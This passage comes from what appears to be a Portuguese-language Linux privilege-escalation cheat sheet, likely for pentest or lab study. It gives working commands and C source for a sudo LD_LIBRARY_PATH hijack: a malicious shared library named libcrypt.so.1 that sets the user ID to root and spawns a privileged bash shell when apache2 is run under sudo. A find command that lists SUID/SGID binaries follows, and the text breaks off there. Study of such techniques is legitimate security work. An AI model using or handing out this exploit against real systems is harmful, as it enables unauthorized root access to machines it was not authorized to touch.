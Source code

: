 
#### Sudo - Variáveis de Ambiente - LD_LIBRARY_PATH

-   Execute ldd no arquivo de programa com permissões sudo (exemplo para toda a secção: apache2) para ver quais bibliotecas compartilhadas são usadas pelo programa:

```bash
which apache2
ldd /usr/sbin/apache2
```

-   Crie um objeto compartilhado com o mesmo nome de uma das bibliotecas listadas (exemplo: libcrypt.so.1, do apache2) usando o seguinte código:

```bash
mkdir /home/user/tools/sudo/
touch /home/user/tools/sudo/library_path.c
nano /home/user/tools/sudo/library_path.c
```

```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
		unsetenv("LD_LIBRARY_PATH");
		setresuid(0,0,0);
		system("/bin/bash -p");
}
```

-   Complilar

```bash
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
```

-   Executar o apache2 usando sudo, com a variável de ambiente LD_LIBRARY_PATH nova (que ficou localizado em /tmp):

```bash
sudo LD_LIBRARY_PATH=/tmp apache2
```

<div style="page-break-after: always;"></div>

## 6. SUID / SGID Executables

### 6.1. SUID / SGID Executables - Known Exploits

-   Encontre todas as aplicações SUID/SGID executáveis

```bash
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```
